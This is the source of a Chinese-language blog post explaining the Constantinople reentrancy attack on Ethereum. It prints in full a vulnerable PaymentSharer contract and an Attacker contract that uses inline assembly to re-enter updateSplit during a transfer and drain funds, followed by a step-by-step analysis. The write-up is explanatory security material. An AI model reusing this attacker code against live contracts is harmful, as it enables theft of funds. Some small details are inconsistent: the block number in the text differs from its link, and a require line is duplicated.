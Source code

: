 ```yaml
---
layout: post
title: "Ethereum 君士坦丁堡重入攻击"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

### 前情简介

以太坊预计在 [1080000](https://amberdata.io/blocks/7080000) 区块进行君士坦丁堡网络升级，升级内容主要包含了 [EIP 145](https://eips.ethereum.org/EIPS/eip-145)、[EIP 1014](https://eips.ethereum.org/EIPS/eip-1014)、[EIP 1052](https://eips.ethereum.org/EIPS/eip-1052)、[EIP 1283](https://eips.ethereum.org/EIPS/eip-1283) 和 [EIP 1234](https://eips.ethereum.org/EIPS/eip-1234)，但就在升级的前一天，[ChainSecurity](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9) 爆出此次升级可能会导致主网上的合约遭受重入攻击。

### 攻击分析

ChainSecurity 示例中被攻击合约如下

```solidity
pragma solidity ^0.5.0;

contract PaymentSharer {
  mapping(uint => uint) splits;
  mapping(uint => uint) deposits;
  mapping(uint => address payable) first;
  mapping(uint => address payable) second;

  function init(uint id, address payable _first, address payable _second) public {
    require(first[id] == address(0) && second[id] == address(0));
    require(first[id] == address(0) && second[id] == address(0));
    first[id] = _first;
    second[id] = _second;
  }

  function deposit(uint id) public payable {
    deposits[id] += msg.value;  // 1.
  }

  function updateSplit(uint id, uint split) public {
    require(split <= 100);
    splits[id] = split;
  }

  function splitFunds(uint id) public {
    // Here would be: 
    // Signatures that both parties agree with this split

    // Split
    address payable a = first[id];
    address payable b = second[id];
    uint depo = deposits[id];
    deposits[id] = 0;

    a.transfer(depo * splits[id] / 100);          // 2.
    b.transfer(depo * (100 - splits[id]) / 100);  // 5.
  }
}
```

攻击合约如下

```solidity
pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
  address private victim;
  address payable owner;

  constructor() public {
    owner = msg.sender;
  }

  function attack(address a) external {
    victim = a;
    PaymentSharer x = PaymentSharer(a);
    x.updateSplit(0, 100);
    x.splitFunds(0);
  }

  function () payable external {  // 3.
    address x = victim;
    assembly{
        mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
        pop(call(10000, x, 0, 0x80, 0x44, 0, 0))  // 4.
    }    
  }

  function drain() external {
    owner.transfer(address(this).balance);
  }
}
```

1. 首先攻击者调用 `deposit` 发送一定数量的 ETH 给被攻击合约
2. 接着调用 `attack` 方法，将所有资金发送给攻击者的地址
3. 由于攻击者是一个合约地址，因此 fallback 方法被触发
4. fallback 方法重新触发 updateSplit 并将 splits[id] 值更改为 0
5. 此时继续执行第二笔转账就会导致合约资金被盗取

> 流程可以参考[下图](https://pbs.twimg.com/media/DxDAzLdXcAAAzib.png:large)

![constantinople reentrancy attack](https://pbs.twimg.com/media/DxDAzLdXcAAAzib.png:large)

之所以攻击更够生效，是因为 `transfer` 方法默认指定 2300 gas，而 `mstore` 操作在此次网络升级之前消耗的 gas 超过 2300，而在此次网络更新之后降低为 200 gas，这就导致了 mstore 能够成功执行。

#### inline assembly code

> call(g, a, v, in, insize, out, outsize)  
> *call contract at address a with input mem[in…(in+insize)) providing g gas and v wei and output area mem[out…(out+outsize)) returning 0 on error (eg. out of gas) and 1 on success*

最后我们来分析一下这段汇编代码做了什么，首先通过 `web3.utils.sha3("updateSplit(uint256,uint256)")` 计算并获取方法签名的前**4**个字节(c3b18fb6)，接着我们将该方法签名补齐32字节并存储 0x80 地址，然后通过 `call` 调用，`call` 的参数解释如下，指定花费 gas 10000，被攻击者合约地址 x，方法和参数起始地址 0x80，参数的长度 0x44(即 68 bytes = 4 method sign bytes + 32 bytes uint256, 32 bytes uint256)，输入值的起始地址 0，输出值的长度 0，最后把 `call` 返回值从栈中移除。


[*ethereum-constantinople-upgrade-announcement*](https://blog.ethereum.org/2019/01/11/ethereum-constantinople-upgrade-announcement/)  
[*security-alert-ethereum-constantinople-postponement*](https://blog.ethereum.org/2019/01/15/security-alert-ethereum-constantinople-postponement/)  
[*Constantinople enables new Reentrancy Attack*](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9)  
[*Solidity Assembly*](https://solidity.readthedocs.io/en/v0.5.2/assembly.html)